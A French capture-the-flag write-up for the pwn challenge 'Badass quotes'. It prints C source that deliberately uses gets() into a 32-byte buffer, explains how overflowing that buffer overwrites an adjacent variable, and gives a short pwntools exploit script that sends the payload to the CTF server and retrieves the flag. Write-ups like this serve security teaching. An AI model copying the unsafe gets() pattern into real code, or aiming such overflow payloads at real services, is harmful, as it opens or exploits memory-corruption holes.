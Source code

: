 # Badass quotes [500] 
Aujourd'hui  on va voir un challenge du CSW CTF. Un challenge de pwn dont j'ai eu le seconde solves (1 sec du first blood 0_0).

## Review du Code
Nous avions simplement le code source en C : 
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main()
{
    char term[64];
    char quote[32];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    memset(term, 0, 64);
	memset(quote, 0, 32);

    printf("\nI CaN HaS BaDaSs QuOtE?\n# ");
    gets(quote);

    if (strcmp(term, "BaDaSs I Am") == 0) {
        printf("\n");
        system("cat flag.txt");
        } else if(strlen(term) !    = 0) {    
            printf("\nI haz a sad %s...\n\n", term);
    } else {
	    printf("\nI haz a sad...\n\n");
	}

	printf(" ,_     _\n");
	printf(" |\\_,-~/\n");
	printf(" / _  _ |    ,--.\n");
	printf("(  @  @ )   / ,-'\n");
	printf(" \  _T_/-._( (   \n");
	printf(" /         `. \  \n");
	printf("|         _  \ | \n");
	printf(" \ \ ,  /      | \n");
	printf("  || |-_\__   /  \n");
	printf(" ((_/`(____,-'   \n");
	
}
```
## Exploitation 
Pour avoir le flag, on doit écrire sur **term** *"BaDaSs I Am"*.
On voit deux memset :
```c
    memset(term, 0, 64);
	memset(quote, 0, 32);

```
L'entrée utilisateurs est gets, nous pouvons donc buffer overflow.
```c
    gets(quote);
```
Si nous écrivons plus de 32 caractères, nous allons écrire sur term.

## Payload [Pwntools]

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = elf.process()
r = remote('cybersecweek.ua.pt', 2010)

buffer = b"A"*32
strings_win = b"BaDaSs I Am"

payload = buffer + strings_win
print(payload)
r.sendline(payload)

r.interactive()
```
Nous obtenions alors : 

    CTFUA{!YoU_Ar3_B4dAss!}

Merci d'avoir lu & merci [Bryton](https://www.youtube.com/c/Opcode) de m'avoir volé le first blood :" )
